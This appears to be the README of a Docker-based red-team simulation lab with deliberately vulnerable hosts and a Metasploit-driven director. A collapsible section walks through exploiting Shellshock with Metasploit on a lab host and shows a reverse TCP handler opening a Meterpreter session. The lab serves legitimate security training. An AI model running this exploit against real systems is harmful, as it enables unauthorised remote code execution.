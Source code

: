 # redteam

Red Team simulation

## Components

- Postgres database
- Vulnerable hosts:
  - Apache httpd vulnerable to shellshock
  - DVWA (Damn Vulnerable Web Application)
  - vsftpd with an infamous backdoor
- Metasploit RPC api (red team worker)
- Python director (red team director)
- Metasploit console (for debugging)




## Requirements

1. Install docker and docker-compose




## Usage

1. Start the database: `docker-compose -f docker-compose-db.yml up -t 2`
   (persistence is disabled, removing the container will reset the data)
1. Start director and workers: `docker-compose -f docker-compose-workers.yml up -t 2`
1. Start the director: `docker-compose up --build -t 2`


## Development

### Tests

```
cd redteam/director
pipenv shell
python -m pytest

```


## Manual use of metasploit

If you want to debug the state of the database or perform 
manual actions in metasploit, you can connect to the
msfconsole by ```docker attach redteam_msfconsole_1```


<details>
  <summary>Remote code execution exploiting Shellshock</summary>

### Example attack


Scan the hostname "target2"
```
> db_nmap target2
```

Check that the host is now in the database
```
> hosts
Hosts
=====

address     mac                name                               os_name  os_flavor  os_sp  purpose  info  comments
-------     ---                ----                               -------  ---------  -----  -------  ----  --------
172.19.0.3  02:42:ac:13:00:03  redteam_target2_1.redteam_default  Unknown                    device         
```

Check which services are now in the database
```
> services
Services
========

host        port  proto  name   state  info
----        ----  -----  ----   -----  ----
172.19.0.3  80    tcp    http   open 
```

Let's assume you expect the host to be vulnerable to shellshock, let's exploit it:
```
> use exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
> set RHOSTS target2
> set TARGETURI /cgi-bin/stats
```

Run the exploit:
```
> exploit

[*] Started reverse TCP handler on 172.19.0.6:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (976712 bytes) to 172.19.0.3
[*] Meterpreter session 1 opened (172.19.0.6:4444 -> 172.19.0.3:60846) at 2020-11-04 12:52:22 +0000

meterpreter >
```

Profit!


</details>


<details>
  <summary>Vulnerability scanning</summary>

```
  mkdir -p $HOME/.nmap/scripts && wget -O $HOME/.nmap/scripts/vulners.nse 'https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/vulners.nse' && nmap --script-updatedb
  nmap -sV --script vulners  --script-args mincvss=6.0 target1
```
</details>
